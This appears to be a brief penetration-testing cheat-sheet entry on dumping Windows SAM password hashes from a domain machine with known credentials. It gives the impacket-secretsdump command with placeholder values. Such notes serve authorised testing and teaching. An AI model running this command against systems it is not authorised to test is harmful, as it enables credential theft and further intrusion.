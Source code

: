 # Dumping hashes (secretsdump)

**Requirements: User / Password**

* **Secretsdump**

Kwowing the credentials of a computer on the domain we can **dump** the **sam** using **secretsdump.**

```
impacket-secretsdump <domain>/<user>:<password>@<ip>
```
